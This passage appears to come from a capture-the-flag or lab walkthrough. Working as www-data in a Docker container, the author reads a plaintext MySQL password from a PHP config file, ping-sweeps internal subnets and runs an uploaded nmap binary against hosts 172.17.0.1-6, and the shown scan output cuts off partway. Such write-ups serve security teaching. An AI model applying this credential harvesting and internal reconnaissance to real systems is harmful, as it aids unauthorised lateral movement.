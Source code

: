 When looking around the Docker container, we can find some MySQL Creds:

```
www-data@3c371615b7aa:/var/www/html/portal$ head -n 10  classes/DBConnection.p>
<?php
if(!defined('DB_SERVER')){
    require_once("../initialize.php");
}
class DBConnection{

    private $host = 'mysql';
    private $username = 'portaldb';
    private $password = 'J5tnqsXpyzkK4XNt';
    private $database = 'portal';
```

This a container with nothing in it, but there's bound to be others that are around somewhere. I started doing ping sweeps to see which hosts are alive.

```bash
for i in {1..255}; do ping -c 1 172.$i.0.1; done
```

I ran this for a while and found that we are on the 172.17.0.0/24 subnet. Afterwards, I did another ping sweep on 172.17.0.0/24.

```
for i in {1..255}; do ping -c 1 172.17.0.$i; done
64 bytes from 172.17.0.1: icmp_seq=0 ttl=64 time=0.071 ms
64 bytes from 172.17.0.2: icmp_seq=0 ttl=64 time=0.067 ms
64 bytes from 172.17.0.3: icmp_seq=0 ttl=64 time=0.060 ms
64 bytes from 172.17.0.4: icmp_seq=0 ttl=64 time=0.060 ms
64 bytes from 172.17.0.5: icmp_seq=0 ttl=64 time=0.051 ms
64 bytes from 172.17.0.6: icmp_seq=0 ttl=64 time=0.033 ms
```

I was lazy to cut the input, but basically 172.17.0.1 - 6 are alive. Now we can download `nmap` to the machine and scan these ports.

```
www-data@3c371615b7aa:/tmp$ ./nmap_binary -p- --min-rate 10000 172.17.0.1-6

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-05-11 10:14 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.1
Host is up (0.000069s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 172.17.0.2
Host is up (0.00027s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
80/tcp  open  http
443/tcp open  https

Nmap scan report for mysql (172.17.0.3)
Host is up (0.00021s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
3306/tcp  open  mysql
33060/tcp open  unknown

Nmap scan report for 172.17.0.4
```